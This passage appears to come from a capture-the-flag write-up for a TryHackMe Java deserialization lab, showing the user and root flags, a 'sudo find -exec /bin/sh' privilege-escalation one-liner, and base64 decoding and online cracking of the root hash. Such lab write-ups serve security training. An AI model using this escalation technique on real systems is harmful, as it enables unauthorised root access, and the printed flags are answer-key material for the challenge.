 ```
/home/jboss/.jboss.txt:THM{50c10ad46b5793704601ecdad865eb06}
/home/jboss/.bash_history:echo "THM{50c10ad46b5793704601ecdad865eb06}" > jboss.txt
Binary file /boot/initrd.img-4.4.0-142-generic matches
/boot/config-4.4.0-142-generic:CONFIG_RWSEM_XCHGADD_ALGORITHM=y
/boot/config-4.4.0-142-generic:CONFIG_SENSORS_THMC50=m
```

Found the flag:

> FLAG: THM{50c10ad46b5793704601ecdad865eb06}


---
## root.txt
Escalated to *root* and found the *root.txt* flag:

```
jboss@thm-java-deserial:~$ sudo find . -exec /bin/sh \; -quit
# whoami
root
# cat /root/root./^Htxt
cat: /root/root.txt: No such file or directory
# ^[: not foundH^H^H^H
# cat /root/root.txt
QkM3N0FDMDcyRUUzMEUzNzYwODA2ODY0RTIzNEM3Q0Y==
```

> QkM3N0FDMDcyRUUzMEUzNzYwODA2ODY0RTIzNEM3Q0Y==

This too needed to be cracked: 

```
┌──(kali㉿kali)-[~/THM/TonyTheTiger/Hash]
└─$ echo "QkM3N0FDMDcyRUUzMEUzNzYwODA2ODY0RTIzNEM3Q0Y==" | base64 --decode
BC77AC072EE30E3760806864E234C7CFbase64: invalid input
```

And then run *BC77AC072EE30E3760806864E234C7CF* through *crackstation.net*:

![CrackStation](Images/09-crackstaion.png)

> FLAG zxcvbnm123456789






